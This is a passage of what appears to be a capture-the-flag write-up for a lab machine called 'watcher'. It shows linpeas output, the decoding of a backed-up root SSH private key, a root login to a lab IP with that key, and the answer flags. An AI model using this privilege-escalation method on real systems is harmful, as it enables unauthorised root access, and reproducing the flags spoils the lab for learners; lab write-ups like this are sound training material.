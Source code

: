 	```
- ## cat flag_6.txt
```bash

will@watcher:/home/will$ cat flag_6.txt 
FLAG{but_i_thought_my_script_was_secure}
```

- ## linpeas will
```
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group will:
/home/will/.config/lxc/config.yml
  Group adm:
/opt/backups
/opt/backups/key.b64
```

- ### decode /opt/backups/key.b64
	- you get roots id_rsa key
	- copy key to my attacking machine
	- ssh in as root #ssh

```bash
ssh -i root_id_rsa root@10.10.96.128        
The authenticity of host '10.10.96.128 (10.10.96.128)' can't be established.
ED25519 key fingerprint is SHA256:/60sf9gTocupkmAaJjtQJTxW1ZnolBZckE6KpPiQi5s.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.96.128' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar  6 20:32:57 UTC 2022

  System load:  0.08               Processes:             122
  Usage of /:   23.5% of 18.57GB   Users logged in:       0
  Memory usage: 40%                IP address for eth0:   10.10.96.128
  Swap usage:   0%                 IP address for lxdbr0: 10.14.179.1


33 packages can be updated.
0 updates are security updates.


Last login: Thu Dec  3 03:25:38 2020
root@watcher:~# 

```

- ## cat flag_7.txt

```bash
root@watcher:~# cat flag_7.txt 
FLAG{who_watches_the_watchers}
```
----
